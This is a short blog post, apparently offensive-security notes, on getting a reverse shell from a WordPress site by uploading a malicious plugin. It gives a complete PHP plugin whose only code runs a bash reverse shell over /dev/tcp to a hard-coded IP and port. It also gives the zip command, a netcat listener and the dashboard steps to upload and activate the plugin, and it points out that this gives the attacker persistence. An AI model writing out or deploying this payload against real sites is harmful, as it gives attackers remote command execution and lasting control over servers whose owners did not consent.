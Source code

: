```yaml
---
layout: post
title: WordPress Plugin Reverse Shell
titledate: 08/26/23
tags: ["infosec","offsec", "web", "wordpress","exploit","shell"]
---
```


[WordPress  Plugin Reverse Shell](https://sevenlayers.com/index.php/179-wordpress-plugin-reverse-shell)

To upload our own plugin we need access to the WordPress Dashboard. We would drop the plugin in the wp-content/plugins folder if we were on the server.

<h3>NOTE: Having the webshell would allow us to maintain persistence by storing our code in the WordPress application</h3>

```php
<?php
/**
* Plugin Name: Reverse Shell Plugin
* Plugin URI:
* Description: Reverse Shell Plugin
* Version: 1.0
* Author: Vince Matteo
* Author URI: http://www.sevenlayers.com
*/
exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.45.154/443 0>&1'");
?>
```
To upload a WP plugin we need to zip it

    $ zip rshll-plugin.zip ./rshll-plugin.php

Before we upload the plugin we need to start a reverse listener on our local machine with NC

    $ nc -lvp 443

Next we Upload via the WP UI - Plugins - Upload Plugin - Browse - Activate Plugin

w00t

![_config.yml]({{ site.baseurl }}/images/web/wp_plugin_shell.png)

